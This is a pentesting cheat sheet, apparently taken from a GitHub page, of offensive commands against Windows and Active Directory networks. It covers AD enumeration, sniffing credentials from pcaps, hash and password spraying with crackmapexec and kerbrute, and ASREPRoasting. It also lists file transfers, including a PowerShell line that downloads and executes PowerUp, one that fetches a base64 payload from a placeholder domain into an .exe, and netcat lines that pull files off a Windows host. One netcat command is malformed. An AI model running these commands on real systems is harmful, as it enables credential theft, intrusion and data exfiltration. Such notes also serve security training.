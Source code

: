 ### Active Directory
- Query AD without PS AD Modules  
  List Global Catalogs of a forest:
   `([System.DirectoryServices.ActiveDirectory.Forest]::Getcurrentforest()).GlobalCatalogs`  
- User Enumeration  
   https://github.com/sensepost/UserEnum

### Network
- run wireshark, save dump --> `./Pcredz -f dump.pcap`  
  or: `sudo ./net-creds.py -p dump.pcap` 

### MySQL command line
- using found credentials:   
  ` mysql -uroot -p<pass> -e 'show databases;'`   
## crackmapexec
- "hash spraying" (in this case with local administrator)  
   `cme smb 172.16.1.0/24 -u Administrator -H 7facdc498ed1680c4fd1448319a8c04f --local-auth` 
- Share enumeration with credentials:  
  `cme smb 172.16.1.0/24 -u bill -p 'password' --shares` 
- Test if user and password combination of domain user are correct:   
  `crackmapexec smb domain.local -d DOMAIN -u username -p password`   
  
## Kerbrute   
- Very performant password spraying tool:   
  `# ./kerbrute_linux_amd64 passwordspray --dc 10.10.10.1 -d example.net userlist.txt 'F00B@r23!'`   
  Check username with username as password:   
  `# ./kerbrute_linux_amd64 passwordspray --dc <dcip> -d domain.local adusers.txt --user-as-pass `   
 
 ## ASRepRoasting   
 - using impacket:   
   `# python3 GetNPUsers.py <domainname>/ -usersfile /root/Desktop/adusers.txt -dc-ip <dcip>`   

## File Transfer
### PowerShell
- `Invoke-RestMethod -Uri $uri -Method Post -InFile $uploadPath -UseDefaultCredentials` 
- `IEX ((New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1"))`  
- `powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"`  

### Download base64 encoded file   
- `[System.IO.File]::WriteAllBytes("c:\windows\temp\telem.exe",[System.Convert]::FromBase64String((New-Object Net.Webclient).downloadstring("https://XOURDOMAIN.COM")))`   

### netcat
- transfer files from kali to windows:  
   1. open listener on target: `nc -nlvp 4444 > incoming.exe` 
   2. send file to target:  `nc -nv 10.0.0.22 4444 < /usr/share/windows-binaries/wget.exe` 
- transfer files from windows to kali:  
   1. on Kali: `nc -nlvp 4444 > file.txt` 
   2. on Windows: `nc.exe -10.11.0.90 4444 < c:\users\bla\file.txt` 
